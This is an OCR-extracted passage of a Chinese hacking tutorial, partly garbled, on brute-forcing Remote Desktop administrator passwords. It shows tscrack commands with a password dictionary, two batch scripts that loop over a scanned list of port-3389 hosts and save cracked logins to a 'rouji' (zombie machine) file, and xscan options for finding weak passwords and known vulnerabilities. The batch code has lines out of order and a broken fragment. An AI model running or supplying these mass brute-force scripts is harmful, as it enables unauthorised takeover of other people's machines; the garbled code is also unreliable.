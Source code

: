 -D 登录主页面

用法示例

tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码

tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户

@if not exist ipcscan.txt goto noscan

@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i

nscan

@echo 3389.txt no find or scan faild

(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)

3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat

@if not exist tscrack.exe goto noscan

@tscrack %1 -l administrator -w pass.dic >>rouji.txt

:noscan

@echo tscrack.exe no find or scan faild

(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)

hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。

扫描工具：xscan

基本格式

xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] 扫锚"起始IP到终止IP"段的所有主机信息

xscan -file <主机列表文件名> <检测项目> [其他选项] 扫锚"主机IP列表文件名"中的所有主机信息

检测项目

-active 检测主机是否存活

-os 检测远程操作系统类型（通过NETBIOS和SNMP协议）

-port 检测常用服务的端口状态

-ftp 检测FTP弱口令

-pub 检测FTP服务匿名用户写权限

-pop3 检测POP3-Server弱口令

-smtp 检测SMTP-Server漏洞

-sql 检测SQL-Server弱口令

-smb 检测NT-Server弱口令

-iis 检测IIS编码/解码漏洞

-cgi 检测CGI漏洞

-nasl 加载Nessus攻击脚本
